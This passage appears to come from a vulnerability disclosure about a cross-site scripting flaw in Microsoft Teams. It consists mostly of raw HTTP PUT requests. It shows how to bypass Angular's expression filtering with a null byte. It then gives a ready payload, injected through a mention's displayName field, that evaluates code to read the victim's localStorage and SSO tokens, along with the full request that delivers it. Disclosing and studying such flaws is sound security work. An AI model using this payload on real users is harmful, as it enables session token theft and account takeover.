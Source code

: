 
The request should look something like this, note `displayName`:

```
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: skypetoken=...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot\"}]"}}
```

angular expression filtering can be bypassed by injecting a nullbyte char in unicode `\u0000`, e.g. 

```
{{3*333}\u0000}
```  

To access user's local storage and all SSO tokens, use this payload within `displayName` in the above HTTP PUT request.

```
{{['if(typeof onetime==`undefined`){onetime=1;console.log(localStorage);}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}
```

Full HTTP request for SSO token logging:
```
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: skypetoken=...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot{{['if(typeof onetime==`undefined`){onetime=1;console.log(localStorage);}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}\"}]"}}
```
